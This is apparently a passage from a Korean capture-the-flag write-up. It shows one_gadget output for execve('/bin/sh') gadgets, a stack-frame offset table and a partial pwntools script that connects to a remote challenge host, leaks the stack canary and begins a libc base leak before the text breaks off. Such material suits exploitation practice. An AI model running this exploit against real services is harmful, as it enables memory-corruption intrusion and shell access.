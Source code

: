 ``` sh
  address rbp-0x48 is writable
  rbx == NULL || {"/bin/sh", rbx, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```
존재하는 one_gadget은 총 4개다.  
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| canary | -0x8 |
| buf | -0x110 |
| buf_page | -0x118 |
| menu_var | -0x11c |
| sp | -0x140 |
### payload
``` python
from pwn import *

p = remote('15.165.12.135', 12345)
context.arch = "amd64"
e = ELF('./prob')
libc = ELF('./libc.so.6')

# buf size: 0x108

# canary leak
p.sendlineafter(b'> ', b'1') # manu
p.sendlineafter(b'Enter article size : ', b'256') 
payload = b''
payload += b'A' * 0x100
p.sendafter(b'Write content : ', payload)   

p.sendlineafter(b'> ', b'3') # manu
p.sendlineafter(b'Page number: ', b'4')
p.sendlineafter(b'Edit size: ', b'0') 
payload = b''
payload += b'A' * 0x9 # buf(8byte) + canary NULL byte
p.sendafter(b'Write content : ',  payload) 

p.sendlineafter(b'> ', b'2') # manu
p.recvuntil(b'Content: ')
canary = p.recvline()[0x109:0x110]
log.info(f'len = {len(canary)}')
canary = u64(b'\x00' + canary)
log.info(f'canary = {hex(canary)}')

# leak base
p.sendlineafter(b'> ', b'3') # manu
p.sendlineafter(b'Page number: ', b'4')
p.sendlineafter(b'Edit size: ', b'0') 
```